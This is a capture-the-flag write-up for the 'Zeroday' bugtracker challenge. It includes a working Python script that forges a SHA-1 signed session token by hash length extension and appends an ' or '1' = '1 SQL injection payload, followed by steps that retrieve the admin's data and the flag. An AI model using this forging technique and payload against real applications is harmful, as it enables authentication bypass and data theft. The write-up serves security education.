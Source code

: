 # Zeroday

## Challenge Description
Found too many zerodays to keep count of them? Zeroday is your new bugtracker.

Beta version access available only for our partners. Stay tuned for open access.

## Initial Analysis
The challenge provides a web application that serves as a bugtracker called "Zeroday". It allows users to log in and view their reported bugs.

Upon analyzing the provided `app.js` code, we notice the following:
- The application uses Express.js as the web framework and SQLite as the database.
- User authentication is implemented using a custom library called `smoltok` for token-based authentication.
- The `smoltok` library is used to encode and decode user tokens, which are stored as cookies.
- The application retrieves the user's bugs from the database based on the authenticated user's username.

Further investigation reveals that the `smoltok` library used in the application is intentionally vulnerable. It uses SHA-1 for token signature generation and verification, which is known to be susceptible to hash extension attacks.

## Vulnerability
The vulnerability in this challenge lies in the use of the `smoltok` library for token-based authentication. The library uses SHA-1 to generate and verify token signatures, which is vulnerable to hash extension attacks.

By exploiting this vulnerability, an attacker can manipulate the token to bypass authentication and perform SQL injection to retrieve bugs belonging to other users, including the admin user.

## Exploitation
To exploit this vulnerability and retrieve the flag, we can use a tool like `hashpump` or a library like `hashpumpy` to perform a hash extension attack on the token.

Here's an example exploitation using `hashpumpy`:

```python
import requests
import hashpumpy
import base64

def pad_base64(base64_string):
    pad_length = (4 - (len(base64_string) % 4)) % 4
    return base64_string + "=" * pad_length

# Original token obtained from the application
original_token = "dXNlcm5hbWU9YWRhbQ.k00XTCj1253CrzegGnm91y/xvjc"

token_data = pad_base64(original_token.split(".")[0]) # cause smoltok removed padding
token_signature = pad_base64(original_token.split(".")[1]) # cause smoltok removed padding

data_bytes = base64.b64decode(token_data)
signature_bytes = base64.b64decode(token_signature)

signature_hex = signature_bytes.hex()

original_data = data_bytes
appended_data = b"' or '1' = '1" # sql injection here, return not only adam's bugs
original_hash = signature_hex
secret_length = 128 # signature lenght is known

result = hashpumpy.hashpump(original_hash, original_data, appended_data, secret_length) # extension attack
new_hash, new_data = result

new_token_data = base64.b64encode(new_data)
new_token_signature = base64.b64encode(bytes.fromhex(new_hash))

# construct new token
new_token = new_token_data.decode().replace("=", "") + "." + new_token_signature.decode().replace("=", "") 

print(new_token)
```

1. Obtain a valid token from the application by logging in as a normal user (you can find credentials for `adam` in the code).
1. Split the token into the data and signature parts.
1. Use `hashpumpy` to perform a hash extension attack on the token, appending a SQL injection payload to the data part.
1. Construct a new token with the modified data and the new signature.
1. Replace old token with a new token in your browser to get the flag
1. There is a potential SQL Injection, but to exploit it user needs to control username stored in a signed token

Flag: `1753c{well_youve_just_found_a_zero_day_on_npm}`

## Conclusion

The "Zeroday" challenge demonstrates the risks associated with using vulnerable libraries and the importance of secure token-based authentication mechanisms. The use of the intentionally vulnerable `smoltok` library, which relies on SHA-1 for token signature generation and verification, allows attackers to perform hash extension attacks and bypass authentication.

By exploiting this vulnerability, an attacker can manipulate the token to perform SQL injection and retrieve sensitive information, such as bugs belonging to other users, including the admin user.

This challenge highlights the need for thorough security assessments of third-party libraries and the importance of using secure cryptographic algorithms for authentication and signature generation. It also emphasizes the significance of input validation and parameterized queries to prevent SQL injection attacks.

By leveraging tools like `hashpump` or libraries like `hashpumpy`, participants can exploit the vulnerability in the `smoltok` library and retrieve the flag from the admin user's bugs.